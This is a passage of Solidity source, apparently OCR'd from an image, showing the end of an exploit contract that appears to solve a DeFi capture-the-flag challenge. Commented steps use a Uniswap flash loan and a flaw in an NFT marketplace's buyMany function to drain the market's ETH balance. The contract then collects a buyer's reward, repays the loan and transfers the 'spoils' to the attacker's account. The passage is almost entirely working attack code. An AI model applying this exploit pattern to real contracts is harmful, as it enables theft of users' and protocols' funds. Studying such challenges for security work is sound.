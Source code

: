 ```solidity
        nftMarketplace.buyMany{value: 30 ether}(tokenIds);

        // 4 - Put them back on sale for 90 ETH each
        nft.setApprovalForAll(address(nftMarketplace), true);
        uint256[] memory prices = new uint256[](2);
        prices[0] = 90 ether;
        prices[1] = 90 ether;
        nftMarketplace.offerMany(tokenIds, prices);

        // 5 - Buy them both but only send 90 ETH, the other 90 will be drained
        // from the market's own balance
        nftMarketplace.buyMany{value: 90 ether}(tokenIds);

        // 7 - Buy remaining 4 NFTs with 60 ETH gained
        tokenIds = new uint256[](4);
        tokenIds[0] = 2;
        tokenIds[1] = 3;
        tokenIds[2] = 4;
        tokenIds[3] = 5;
        nftMarketplace.buyMany{value: 60 ether}(tokenIds);

        // 8 - Send all 6 NFTs to buyer's contract
        for (uint256 tokenId = 0; tokenId < 6; tokenId++) {
            nft.safeTransferFrom(address(this), buyer, tokenId);
        }

        // 10 - Calculate fee and pay back loan
        uint256 fee = ((120 ether * 3) / uint256(997)) + 1;
        weth.deposit{value: 120 ether + fee}();
        weth.transfer(address(uniswapPair), 120 ether + fee);

        // 11 - Transfer spoils to attacker's EOA
        payable(attacker).transfer(address(this).balance);
    }

    // 6 - The contract will receive 180 ETH as the seller of NFTs, half from itself, other half stolen
    // 9 - The contract receives the 45 ETH reward afte the last NFT is sent to the buyer's contract
    receive() external payable {}

    function onERC721Received(
        address,
        address,
        uint256,
        bytes memory
    ) external pure override returns (bytes4) {
        return IERC721TokenReceiver.onERC721Received.selector;
    }
}
```
